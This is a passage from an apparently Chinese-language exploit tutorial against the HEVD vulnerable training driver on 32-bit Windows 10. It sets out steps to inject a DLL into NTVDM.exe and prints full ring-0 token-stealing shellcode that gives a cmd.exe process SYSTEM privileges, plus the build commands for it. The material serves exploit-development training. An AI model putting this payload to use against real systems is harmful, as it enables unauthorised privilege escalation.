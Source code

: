 现在，我们需要制作一个DLL来承载我们的漏洞代码。由于DLL将被注入NTVDM.exe的进程地址空间，因此我们需要：<br>
1、编写内核Shellcode，该Shellcode要支持Windows 10的x86版本；<br>
2、一旦我们的DLL被加载，就要复制Shellcode到地址100h处；<br>
3、在地址4h处，添加一个指向Shellcode的指针，以便Callback属性使用；<br>
4、为HEVD驱动程序触发DeviceloControl，它会将执行传递给Shellcode。<br>
首先，看看我们的内核Shellcode。对于这个漏洞，我们重新使用此前WARBIRD的Shellcode，它会寻找cmd.exe进程，并从特权系统进程中复制进程令牌。

```
pushad
mov eax, [fs:0x120 + 0x4]   ; Get 'CurrentThread' from KPRCB

mov eax, [eax + 0x150]       ; Get 'Process' property from current thread

next_process:
cmp dword [eax + 0x17c], 'cmd.'  ; Search for 'cmd.exe' process
je found_cmd_process
mov eax, [eax + 0xb8]            ; If not found, go to next process
sub eax, 0xb8
jmp next_process

found_cmd_process:
mov ebx, eax                     ; Save our cmd.exe EPROCESS for later

find_system_process:
cmp dword [eax + 0xb4], 0x00000004  ; Search for PID 4 (System process)
je found_system_process
mov eax, [eax + 0xb8]
sub eax, 0xb8
jmp find_system_process

found_system_process:
mov ecx, [eax + 0xfc]            ; Take TOKEN from System process
mov [ebx+0xfc], ecx              ; And copy it to the cmd.exe process

popad
ret
```

在这里，需要注意这个32位的Ring-0 Shellcode和我们之前Win 7 x64的Shellcode还是有一些细微区别的：<br>
1、用来派生KPRCB结构的段寄存器是fs寄存器而不是gs寄存器；<br>
2、所有到nt!_EPROCESS、nt!_KTHREAD和nt!KPRCB结构的偏移量都是不同的。<br>
我们有了Shellcode之后，就可以对它进行编译：

```
nasm /tmp/win10-32.asm -o /tmp/win10-32.bin -f bin
```

并提取一个C缓冲区：

```
radare2 -b 32 -c 'pc' /tmp/win10-32.bin
```

这样，我们得到的C缓冲区如下：
